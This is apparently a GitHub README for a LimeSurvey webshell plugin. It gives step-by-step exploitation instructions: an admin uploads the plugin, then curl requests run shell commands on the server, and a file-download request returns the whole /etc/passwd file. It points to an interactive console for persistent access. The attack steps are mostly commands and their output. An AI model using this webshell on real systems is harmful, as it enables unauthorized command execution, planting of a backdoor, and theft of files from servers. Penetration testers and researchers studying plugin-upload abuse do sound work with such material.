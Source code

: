 # LimeSurvey - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on the LimeSurvey.

## Exploitation

### Step 1: Upload the webshell plugin

Go to "Configuration --> plugins" page, at http://localhost:10080/index.php/admin/pluginmanager/sa/index, and click on "Upload & install":

![](./imgs/upload_and_install.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.01/upload/plugins/WebShell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://localhost:10080/upload/plugins/WebShell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://localhost:10080/upload/plugins/WebShell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1/upload/plugins/WebShell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```


### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/LimeSurvey-plugin-webshell/blob/main/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/163652719-eb16acba-6e2c-47a2-bc52-21ceff24dc09.mp4

## References
 - https://github.com/p0dalirius/LimeSurvey-plugin-webshell
